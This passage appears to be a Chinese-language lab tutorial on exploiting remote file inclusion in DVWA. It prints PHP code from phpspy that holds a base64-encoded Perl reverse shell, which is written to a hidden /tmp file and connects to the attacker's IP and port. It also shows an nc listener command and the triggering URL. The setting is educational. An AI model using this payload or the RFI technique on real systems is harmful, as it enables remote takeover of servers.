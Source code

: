 ```
$back_connect="IyEvdXNyL2Jpbi9wZXJsDQp1c2UgU29ja2V0Ow0KJGNtZD0gImx5bngiOw0KJHN5c3RlbT0gJ2VjaG8gImB1bmFtZSAtYWAiO2Vj". 
"aG8gImBpZGAiOy9iaW4vc2gnOw0KJDA9JGNtZDsNCiR0YXJnZXQ9JEFSR1ZbMF07DQokcG9ydD0kQVJHVlsxXTsNCiRpYWRkcj1pbmV0X2F0b24oJHR". 
"hcmdldCkgfHwgZGllKCJFcnJvcjogJCFcbiIpOw0KJHBhZGRyPXNvY2thZGRyX2luKCRwb3J0LCAkaWFkZHIpIHx8IGRpZSgiRXJyb3I6ICQhXG4iKT". 
"sNCiRwcm90bz1nZXRwcm90b2J5bmFtZSgndGNwJyk7DQpzb2NrZXQoU09DS0VULCBQRl9JTkVULCBTT0NLX1NUUkVBTSwgJHByb3RvKSB8fCBkaWUoI". 
"kVycm9yOiAkIVxuIik7DQpjb25uZWN0KFNPQ0tFVCwgJHBhZGRyKSB8fCBkaWUoIkVycm9yOiAkIVxuIik7DQpvcGVuKFNURElOLCAiPiZTT0NLRVQi". 
"KTsNCm9wZW4oU1RET1VULCAiPiZTT0NLRVQiKTsNCm9wZW4oU1RERVJSLCAiPiZTT0NLRVQiKTsNCnN5c3RlbSgkc3lzdGVtKTsNCmNsb3NlKFNUREl".
"OKTsNCmNsb3NlKFNURE9VVCk7DQpjbG9zZShTVERFUlIpOw=="; 
cf('/tmp/.bc',$back_connect); 
$res = execute(which('perl')." /tmp/.bc $yourip $yourport &"); 


?> 
```

该程序中有这两个变量：

```
$yourip = "192.168.122.101"; 
$yourport = '1111'; 
```

yourip 是当前设备的 IP 地址，yourport 可以随便设置，主要不要冲突即可。

> **注意**：这是从 phpspy 中的截取的反弹 shell 的代码

然后使用 `:wq` 保存并退出

接着我们使用 nc 命令来监听我们刚刚所设置的端口：

```
nc -nvlp 1111
```

我们会看到终端中有 `listening on [any] 1111` 的提示，若说明我们正在监听这个端口，只要有请求进来我们就会连接上

然后我们在 firefox 中访问这样的 URL：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=http://192.168.122.101/test.txt
```

页面上我们感觉似乎没有什么变化，但是返回我们的终端可以看到：

![show-reverse-shell](../imgs/wm_168.png)
